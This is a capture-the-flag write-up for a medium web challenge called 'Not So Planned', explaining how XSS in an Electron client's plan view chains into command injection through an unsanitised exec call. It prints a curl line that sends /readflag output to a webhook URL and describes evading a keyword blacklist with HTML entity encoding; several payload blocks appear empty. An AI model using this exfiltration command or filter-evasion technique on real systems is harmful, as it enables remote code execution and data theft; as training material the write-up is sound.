

import FlagBox from '@site/src/components/FlagBox';
import ChallengeInfo from '@site/src/components/ChallengeInfo';

# Not So Planned

<ChallengeInfo
  author="Djumanto"
  points={865}
  difficulty="Medium"
  solves={13}
  description="I'm planning to get married at 25 years old, so I make this app which help me remeber things, also caching is cool, so i will always remember the first step."
/>
<FlagBox>ITSEC\{9160d783d3025c25164f106d1abe9372\}</FlagBox>

## Chall Details 📝
| Aspects     | Spawner     | Backend       | Client        |
| :---        | :---        | :---          | :---          |
| Language    | Node.js     | Node.js       | Electron      |

## Goal 🏁
The goal is to steal the flag. However, the flag is only accessible through a binary file '/readflag' within the spawner.

## Endpoints 🕸️
**Spawner** – `http://13.250.64.232:5598`

| Method | Endpoint   | Description                                         | Req. Body                           |
|--------|-----------|-----------------------------------------------------|-------------------------------------|
| POST   | /create   | Spawns a headless browser to view a plan from the electron app | `{"uuid":"199e4e3d-..."}` |

**Backend** – `http://13.250.64.232:5599`

| Method | Endpoint             | Description                     | Req. Body                                                                 |
|--------|---------------------|---------------------------------|---------------------------------------------------------------------------|
| GET    | /get-plan/:uuid      | Get a certain plan based on uuid | None                                                                      |
| POST   | /create-plan         | Create a new plan                | `{"title":"test","description":"test","important_type":0}`                |

## Solution 💡
Spawner has the main function of spawning a headless browser that will then access a specific plan on the client.
It is known that in the ViewPlan.tsx file, there is an XSS attack vector. The vulnerable data is fetched from the backend container.
``` typescript title="/client/src/ui/pages/ViewPlan.tsx"
useEffect(() => {
  const fetchPlan = async () => {
    try {
      const res = await fetch(`http://localhost:3000/get-plan/${uuid}`);
      if (!res.ok) throw new Error("Plan not found");
      const data = await res.json();
      setPlanData(data.plan);
    } catch (err: any) {
      setError(err.message || "Error fetching plan");
    }
  };
  fetchPlan();
}, [uuid]);
useEffect(() => {
  if (descriptionBox.current && planData?.description) {
    descriptionBox.current.innerHTML = planData.description;
  }
}, [planData]); 
```
On the client, there is a snippet of code that allows RCE (Remote Code Execution).
```typescript title="/client/src/electron/PlanCached.ts"
export class PlanCached {
    …trim…
    backupCachedPlan(name: string){
        let command = '';
        switch (process.platform){
            case 'win32':
                command=`powershell -Command "Compress-Archive -Path ${this.path} -DestinationPath ${name}.zip"`;
                exec(command);
                break;
            case 'darwin':
                command=`zip -r ${this.path} ${name}.zip`;
                exec(command);
                break;
            case 'linux':
                command=`zip ${name}.zip ${this.path}`;
                exec(command);
                break;
            default:
                break;
        }
    }
    …trim…
}
```
```typescript title="/client/types.d.ts"
interface Window{
    api: {
        setCachedPlan: (plan: PlanInterface) => void,
        getCachedPlans: () => Promise<PlanCachedInterface>,
        onPlanUpdated: (callback: () => void) => () => void;
        backupCachedPlan: (name: string) => void
    }
}
```
Theoretically, by executing the following JavaScript through XSS and obtain the flag.
```javascript
window.api.backupCachedPlan('$(curl https://webhook.site/[unique-id]?flag=$(/readflag))')
```

If we were to trace back to the backend, any substring in the `description` field that is included in the `unnecessaryChar` list will be sanitized.

``` javascript title="/backend/app.js"
app.post("/create-plan", (req, res) => {
    let { title, description, important_type } = req.body;
    …trim…
    const escapeRegExp = s => s.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
    for (const c of unnecessaryChar) {
        const pattern = new RegExp(escapeRegExp(c), 'gi');
        description = description.replace(pattern, '');
    }
    …trim…
});
```
In unnecessaryChar, the string "Image" is blacklisted, but "img" is not.
This allows us to use a payload like:
```html

```
to inject our script.

Additionally, periods (“.”) and parentheses are blacklisted.
Both are crucial for our payload:

- Periods are needed in URLs to separate the root domain from the top-level domain.
- Parentheses are needed for command substitution using `$()` to call /readflag during execution.


Source: <a>https://designpowers.com/blog/url-best-practices</a>

To bypass these restrictions, we can use **HTML Entity Encoding** as mentioned by [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#decimal-html-character-references).
Based on this, the following payload is derived:
```html

```
which translates to (modified for readability):
```html

```

Now to gain flag, we should:
1. Create a plan with the description containing the payload above.
2. Pass the plan's uuid to spawn a headless browser to view the plan.
3. The headless browser will execute the payload, which will then call `/readflag` and send the flag to the webhook URL.

## References 📚
For further information on how HTML parses attribute values for **HTML Entity Encoding** works, please refer to the following resources in order from top to bottom:
- https://html.spec.whatwg.org/multipage/parsing.html#attribute-value-(unquoted)-state
- https://html.spec.whatwg.org/multipage/parsing.html#character-reference-state
- https://html.spec.whatwg.org/multipage/parsing.html#numeric-character-reference-state
- https://html.spec.whatwg.org/multipage/parsing.html#decimal-character-reference-start-state
- https://html.spec.whatwg.org/multipage/parsing.html#decimal-character-reference-state
- https://html.spec.whatwg.org/multipage/parsing.html#numeric-character-reference-end-state